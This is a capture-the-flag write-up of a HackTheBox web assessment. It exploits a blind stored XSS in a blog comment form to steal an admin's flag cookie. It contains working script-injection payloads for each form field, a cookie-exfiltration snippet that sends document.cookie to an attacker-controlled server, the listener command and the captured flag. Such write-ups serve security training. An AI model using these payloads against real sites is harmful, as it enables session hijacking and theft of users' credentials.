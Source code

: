 # Day27 - XSS Cookie Theft (HTB Skill Assessment)

- **Platform**: HackTheBox  
- **Category**: Web / XSS  
- **Difficulty**: Medium  
- **Date**: 2025-05-27  
- **Tools Used**: BurpSuite, PHP web server  

---

## Summary
The objective was to extract the value of the `flag` cookie from a target web application. By exploiting a blind stored XSS in the comment system, I was able to execute JavaScript in the admin’s browser and exfiltrate cookies to my attacker-controlled server.

---

## Enumeration
- Target: `http://10.129.200.50/assessment`  
- The main page exposed a **search box** and a blog post at:  
  ```
  http://10.129.200.50/assessment/index.php/2021/06/11/welcome-to-security-blog/
  ```
- The post page contained a comment form with the following fields:  
  - Comment  
  - Name  
  - Email  
  - Website  
- Comments required admin approval → suggesting a blind XSS vector.

---

## Exploitation
1. **Set up listener**  
   Hosted a PHP web server to catch callbacks:  
   ```bash
   sudo php -S 0.0.0.0:80
   ```

2. **Test payloads**  
   Injected XSS payloads into each form field:  
   ```html
   "><script src="http://10.129.200.10/comment"></script>
   "><script src="http://10.129.200.10/name"></script>
   "><script src="http://10.129.200.10/email"></script>
   "><script src="http://10.129.200.10/website"></script>
   ```
   - The `email` field rejected invalid input → used `asd@asd.com`.  
   - Logs confirmed a hit on the `website` payload, triggered by the admin user.  

3. **Exfiltrate cookies**  
   - Created a malicious script:  
     ```js
     new Image().src='http://10.129.200.10/index.php?c='+document.cookie;
     ```
   - Hosted as `script.js` and injected via Website field:  
     ```html
     "><script src="http://10.129.200.10/script.js"></script>
     ```

4. **Captured response**  
   Logs showed the admin fetched `script.js` and then requested:  
   ```
   /index.php?c=...; flag=HTB{cr055_5173_5cr1p71n6_n1nj4}
   ```

- **Flag:** `HTB{cr055_5173_5cr1p71n6_n1nj4}`  

---

## Lessons Learned
- Comment systems with admin approval workflows are common blind XSS targets.  
- Hosting payloads externally simplifies logging and cookie exfiltration.  
- Stored XSS can be escalated into **session hijacking** when cookies contain sensitive values like flags or auth tokens.  

